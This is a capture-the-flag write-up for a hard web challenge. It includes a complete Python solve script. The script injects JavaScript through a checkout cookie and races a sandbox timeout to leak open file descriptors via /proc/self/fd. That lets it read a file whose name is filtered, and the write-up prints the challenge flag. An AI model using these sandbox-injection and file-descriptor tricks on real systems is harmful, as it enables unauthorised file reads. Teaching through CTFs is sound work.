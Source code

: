 #### Into the Backrooms 4 - Hard

*This challenge has four different parts. The source code is always the same. The parts build on each other and you should work on them in their order.

It seems like you were somehow able to execute the checkout function. Impressive. But seriously, you need to stop. There is now way that you are able to read the last flag. Don't even try.*

*Connection information: <br>
*summit.informatik.sexy:8085*

<br>

[into_the_backrooms.zip](../../Public/into_the_backrooms.zip)

<br>

This is were things really get complicated. We are able to bypass the admin validation in the checkout function and we can execute certain functions defined in a sandbox. The last flag is on the file system of the host. The sandbox allows us to execute a `readFile` function with a path. It allows us the read files on the host if the user `app` has permissions to read the file. We are not allowed to use the term flag in the path. If we do so, the content of the file will not be returned to us. The file however will still be read. This means we need to read the `flag.txt` without using its name. There are two concepts we need to familiarize with first to be able to understand the solution: The `/proc` filesystem and `file descriptors`.

For each process there is a folder inside the `/proc` filesystem named after the PID, process id, of the process. It contains information about the running process. The link `self` points to the process reading the file system. In our case we don't need to find the PID as we can just use `self`. The process folders in `/proc` contain a subfolder named `fd`. It contains all the file descriptors that currently exist for the process. File descriptors are unique integer IDs and each of them points to a different open file in the kernel. A file descriptor is created when a file is opened and deleted when the file is explicitly closed. The file descriptors are links to the original file. This is our possibility to address the flag file under a different name. The only problem is that we won't know which file descriptor is associated with our flag file. So we will have to try all of them. Due to the behaviour of the `readFile` function we are able to open a file descriptor to the flag file even if the content is not returned to us. 

The final solution looks something like this:
1. Start a thread that reads the flag over and over again. This will create the file descriptors `/proc/self/fd`.
2. Start another thread that tries to read the files in `/proc/self/fd`.
3. Repeat 1. and 2. in a loop until the flag is returned. 

A python solve script will look like this:

```python
from time import sleep

import requests
import threading
import uuid

base_url = 'http://localhost:8000/'

register_url = base_url + 'register'

username = str(uuid.uuid4())
username = username.replace('-', '')

register_data = {
    'username': username,
    'password': '12345678'
}

r = requests.post(url=register_url, json=register_data)

if r.json()['error']:
    print("Registration failed!")
    exit()

login_url = base_url + 'login'

login_data = register_data

r = requests.post(url=login_url, json=login_data)

if r.json()['error']:
    print("Login failed!")
    exit()

cookies = r.cookies.get_dict()
passwd = cookies['passwd']
uid = cookies['uid']


def e_formatter(n):
    a = '{:.4E}'.format(float(n))
    e = a.find('E')
    return '0.{}{}{}{:02d}'.format(a[0], a[2:e], a[e:e + 2], abs(int(a[e + 1:]) * 1 + 1))


uid = e_formatter(uid)

checkout_url = base_url + 'checkout'


def create_fd():
    order = 'a = _=> { return readFile`/flag.txt` + a`` }, a``'

    COOKIES = {
        'order': order,
        'passwd': passwd,
        'uid': uid
    }

    r = requests.get(url=checkout_url, cookies=COOKIES)


def read_flag(flag):
    order = ''
    for i in range(30):
        order += 'readFile`/proc/self/fd/{}`,'.format(i)
    order = order[:-1]

    COOKIES = {
        'order': order,
        'passwd': passwd,
        'uid': uid
    }

    r = requests.get(url=checkout_url, cookies=COOKIES)

    try:
        if r.json()['error']:
            print("Trying again!")
    except (TypeError, requests.exceptions.JSONDecodeError) as e:
        if "nland" in r.text:
            r = r.text.split('\\n')[1]
            flag[0] = r


flags = ['failed']
flag = ['failed']

while "nland" not in flag:
    t1 = threading.Thread(target=create_fd)
    t2 = threading.Thread(target=read_flag, args=(flags,))
    t1.start()
    t2.start()
    t1.join()
    t2.join()
    flag = flags[0]
    sleep(1.0)

print(flag)
```

The start of the script registers a new user and logs into it and creates the uid cookie in scientific notation. The second part then sends the requests to retrieve the flag.
The `readFile` function reads the file specified by path through `fs.readFileSync(path)`. This function creates a file descriptors, reads the file and closes the file descriptors. If we call the `readFile` function multiple times during a run in the sandbox, the timeout will eventually run out. If this happens at the exact same time as the file descriptor is still open, it won't get closed.

```js
readFile: (path) => {
    path = new String(path).toString()
    if(fs.statSync(path).size == 0)
        return null
    let r = fs.readFileSync(path)
    if(!path.includes('flag'))
        return r
    return null
}
```

The `create_fd` function reads the flag file over and over again and creates the file descriptors as described above.

The `read_flag` function tries to read the flag from the file desciptors. We are not guaranteed a hit on the first try. This is because the `create_fd` function first needs to create the open file descriptors. After a while there are enough file descriptors so that we will be able to find an open one before the timeout and can read the flag. We will execute the two functions at the same time in separate threads in a loop. Eventually the script will print out the flag.

The flag is `nland{wh0_70ld_y0u_4b0u7_pr0c_4nd_f1l3_d35cr1p70r5?}`.
